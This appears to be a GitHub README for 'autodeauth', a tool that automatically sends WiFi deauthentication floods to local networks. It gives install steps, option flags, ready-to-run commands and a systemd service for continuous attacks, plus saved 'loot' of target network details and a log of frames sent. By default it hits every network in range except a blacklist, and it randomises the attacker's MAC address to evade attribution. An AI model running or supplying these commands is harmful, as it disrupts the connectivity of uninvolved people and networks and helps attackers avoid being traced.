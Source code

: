 # autodeauth
A tool built to automatically deauth local networks
* Tested on Raspberry Pi OS and Kali Linux

# Setup
```
$ chmod +x setup.sh
$ sudo ./setup.sh
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
Please enter your WiFi interface name e.g: wlan0 ->  wlan1
autodeauth installed

use sudo autodeauth or systemctl start autodeauth 

to edit service setting please edit: service file: /etc/systemd/system/autodeauth.service
```


# Options
```
$ sudo autodeauth -h
        _       _       ___                _   _    
       /_\ _  _| |_ ___|   \ ___ __ _ _  _| |_| |_  
      / _ \ || |  _/ _ \ |) / -_) _` | || |  _| ' \ 
     /_/ \_\_,_|\__\___/___/\___\__,_|\_,_|\__|_||_|

usage: autodeauth [-h] --interface INTERFACE [--blacklist BLACKLIST] [--whitelist WHITELIST] [--led LED] [--time TIME] [--random] [--ignore] [--count COUNT] [--verbose VERBOSE]

Auto Deauth Tool

options:
  -h, --help            show this help message and exit
  --interface INTERFACE, -i INTERFACE
                        Interface to fetch WiFi networks and send deauth packets (must support packet injection)
  --blacklist BLACKLIST, -b BLACKLIST
                        List of networks ssids/mac addresses to avoid (Comma seperated)
  --whitelist WHITELIST, -w WHITELIST
                        List of networks ssids/mac addresses to target (Comma seperated)
  --led LED, -l LED     Led pin number for led display
  --time TIME, -t TIME  Time (in s) between two deauth packets (default 0)
  --random, -r          Randomize your MAC address before deauthing each network
  --ignore              Ignore errors encountered when randomizing your MAC address
  --count COUNT, -c COUNT
                        Number of packets to send (default 5000)
  --verbose VERBOSE, -v VERBOSE
                        Scapy verbosity setting (default: 0)
                                                    
```

# Usage
After running the setup you are able to run the script by using autodeauth from any directory
## Command line
Networks with spaces can be represented using their mac addresses
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,E1:DB:12:2F:C1:57 -c 10000
```
## Service
```
$ sudo systemctl start autodeauth
```


# Loot and Log files
## Loot
When a network is detected and fits under the whitelist/blacklist criteria its network information is saved as a json file in /var/log/autodeauth/

```json
{
    "ssid": "MyWiFiNetwork",
    "mac_address": "10:0B:21:2E:C1:11",
    "channel": 1,
    "network.frequency": "2.412 GHz",
    "mode": "Master",
    "bitrates": [
        "6 Mb/s",
        "9 Mb/s",
        "12 Mb/s",
        "18 Mb/s",
        "24 Mb/s",
        "36 Mb/s",
        "48 Mb/s",
        "54 Mb/s"
    ],
    "encryption_type": "wpa2",
    "encrypted": true,
    "quality": "70/70",
    "signal": -35
} 
```
## Log File
```
$ cat /var/log/autodeauth/log               
2022-08-20 21:01:31 - Scanning for local networks
2022-08-20 21:20:29 - Sending 5000 deauth frames to network: A0:63:91:D5:B8:76 -- MyWiFiNetwork
2022-08-20 21:21:00 - Exiting/Cleaning up
```

# Edit Service Config

To change the settings of the autodeauth service edit the file /etc/systemd/system/autodeauth.service <br>
Lets say you wanted the following config to be setup as a service
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```
```
$ vim /etc/systemd/system/autodeauth.service
```
Then you would change the ExecStart line to <br>
```
ExecStart=/usr/bin/python3 /usr/local/bin/autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```

